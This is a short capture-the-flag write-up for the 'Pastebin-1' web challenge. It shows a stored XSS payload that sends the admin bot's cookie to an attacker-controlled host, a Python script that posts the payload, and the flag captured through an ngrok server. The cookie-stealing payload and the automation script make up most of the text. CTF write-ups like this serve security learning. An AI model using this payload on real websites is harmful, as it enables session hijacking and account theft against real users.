 # Pastebin-1

The pastebin page is vulnerable to xss attack. For some reason fetch didn't work so I used redirect to get admin cookies. 

With the following payload I was able to redirect with the admin cookie included. 
```javascript
<script>window.location.href = "{lhost}/"+document.cookie</script>
```

Small script to automate the process. 
```python
import requests
import sys

lhost = sys.argv[1]

payload = f'<script>window.location.href = "{lhost}/"+document.cookie</script>'
print(payload)
headers = {
    "Content-Type": "application/x-www-form-urlencoded"
}
print("[+] Sending xss-payload")
xss = requests.post("https://pastebin-1.mc.ax/create", data={"content": payload})

print("[+] Fetching pastebin-url")
print(xss.url)
print("[+] Enter that url in https://admin-bot.mc.ax/pastebin-1")

```

Admin-bot page has a recaptcha so, the url has to be entered manually. 

When I entered the url, my ngrok server got back a response with the flag:
`GET /flag=flag{d1dn7_n33d_70_b3_1n_ru57}`

### Flag
flag{d1dn7_n33d_70_b3_1n_ru57}